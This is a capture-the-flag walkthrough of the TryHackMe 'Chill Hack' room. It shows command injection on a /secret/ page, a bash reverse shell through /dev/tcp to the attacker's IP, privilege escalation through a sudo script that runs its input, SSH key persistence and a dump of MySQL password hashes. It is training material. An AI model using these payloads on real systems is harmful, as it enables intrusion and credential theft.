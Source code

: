 # Chill Hack

![image](https://user-images.githubusercontent.com/5285547/127403967-7b72f2d6-60aa-4f74-8f0d-f8bbce81071c.png)

Room link: https://tryhackme.com/room/chillhack


A quick enum to get started, I usually run as a basic, nmap, nikto, gobuster as a min.

## Nmap 

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

## Gobuster

```
/css                  (Status: 301) [Size: 310] [--> http://10.10.44.162/css/]
/images               (Status: 301) [Size: 313] [--> http://10.10.44.162/images/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.44.162/fonts/] 
/secret               (Status: 301) [Size: 313] [--> http://10.10.44.162/secret/]             #  Seem's intresting! 
/js                   (Status: 301) [Size: 309] [--> http://10.10.44.162/js/] 
```

## http://10.10.44.162/secret/
*replace your IP for the rooms IP

This page gives us a box with command execution (Easy!)  

![image](https://user-images.githubusercontent.com/5285547/127404324-dcb6a694-b7cc-4037-8b6c-7f8b56acf541.png)

Trying other things like "ls" gives you...  

![image](https://user-images.githubusercontent.com/5285547/127404273-9aaf970c-0d55-48db-8908-1f152db4b0e9.png)


Testing some more I quickly realise we can chain together commands using ";"
ie:
```
id;ls
```

![image](https://user-images.githubusercontent.com/5285547/127404437-9126f1a0-0442-47a4-8a65-5b2038ddea97.png)

I captured the request in burp suite and then tried a few payloads to get a revershell back. 
First I checked with a simple ping command for a result to prove the connection back. 

Kali
```
sudo tcpdump -i tun0 icmp 
```

Post request

```
POST /secret/ HTTP/1.1
Host: 10.10.44.162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://10.10.44.162
Connection: close
Referer: http://10.10.44.162/secret/
Upgrade-Insecure-Requests: 1

command=id%3bping%20-c%201%2010.8.153.120
```

Bingo! A reply!
```
┌──(ac1d㉿kali)-[~]
└─$ sudo tcpdump -i tun0 icmp                          
[sudo] password for ac1d: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:35:26.127709 IP 10.10.44.162 > 10.8.153.120: ICMP echo request, id 1871, seq 1, length 64
23:35:26.127742 IP 10.8.153.120 > 10.10.44.162: ICMP echo reply, id 1871, seq 1, length 64
```

Now I test payloads to see what pings back. 

Reverse shell

Sending a bash rev shell we can get a reverse shell from the command injection we just found. 

```
command=id%3bbash%20-c%20%22%2fbin%2fbash%20-i%20%3e%26%20%2fdev%2ftcp%2f10.8.153.120%2f9999%200%3e%261%
```
Decoded
```
command=id;bash -c "/bin/bash -i >& /dev/tcp/10.8.153.120/9999 0>&1"
```

![image](https://user-images.githubusercontent.com/5285547/127405379-d0199737-5cdb-4af3-a69b-57769ef1529f.png)


## User

Checking sudo -l as www-data shows us something intresting. 

```
Matching Defaults entries for www-data on ubuntu:                                                                                                                                     env_reset, mail_badpass,                                                                                                                                                         secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                                                                                                                 
User www-data may run the following commands on ubuntu:                                                                                                                               (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh                                                                                                                             


www-data@ubuntu:/tmp$  cat /home/apaar/.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```
We can run a script as the user apaar.  
The script seems to read a name and add it to the person variable.  
Then ask for a msg but never use it. 2>/dev/null
2=STDERR, so send all errors to nothing (but still executing). 

I send another ping to myself to prove its working. 

![image](https://user-images.githubusercontent.com/5285547/127407943-471032f3-c85b-4f20-a349-11b126a8f88f.png)

Then I try simply /bin/bash for a shell as the user. 

```
sudo -u apaar /home/apaar/.helpline.sh
```

![image](https://user-images.githubusercontent.com/5285547/127407970-065246c3-cde0-49d1-a1cd-ac53884cb783.png)

Now we upgrade our terminal.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Get ssh access

Now seeing the .ssh/ folder is now writable i can add my ssh public key and just login. 

Kali box
```
ssh-keygen
```

Accept all defaults and then cat the id_rsa.pub key out. 

```
cat ~/.ssh/id_rsa.pub

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDQq4KtSkrifBP5HFkQ+/zrsalHvnsNI1TvefMU92X06G6XN9E2fYajOuLq/0yV1Ak57ohnNQFXSFHQBV9tB0rTFDmhaHCaGuqX+ZSMvSwHwZW32OasxAMnJPbTzSCqli58JN+GdVd81PJPNHnva1Q2WZ/cnvfc<REDACTED>0yFWnTkjx4tAZV+DG27IiOTlJSe2rUFR/eRDI7kN3d2qDiqChI/7F+ld+lqZLEHOhagYSamwGGu0t+0H39COfLX5PfhMBMKKpaaR6FR8AdYvIw6yyoNjNfnnXU2977Cn7m/Zz/l7xy+KYXRng+JBtjDbyg4jXGc=
```

Then on the attacking machine add it to the authorized_keys file. 

```
cat <<EOF > authorized_keys
#paste the key here
EOF
```

![image](https://user-images.githubusercontent.com/5285547/127408538-cd099dc8-777f-4a0f-a231-5c92725d0036.png)

Now connect to the ssh

```
ssh apaar@10.10.44.162 -i ~/.ssh/id_rsa
```

A much better terminal

![image](https://user-images.githubusercontent.com/5285547/127408800-adc970a3-4cd6-469f-bf57-5dc4a8cecab1.png)

# Enum 2

Checking the rest of the system I saw the username and password for mysql in the index page for login. 

![image](https://user-images.githubusercontent.com/5285547/127409095-e1e33dbb-61a9-4dd6-b013-6c6b0ae5ac53.png)

Using the details we can login and check the databases out. 

![image](https://user-images.githubusercontent.com/5285547/127409156-103b4a38-1509-4f32-8ca5-349837258701.png)

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
5 rows in set (0.00 sec)

mysql> use webportal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
```

Lets see if we can crack the passwords. 






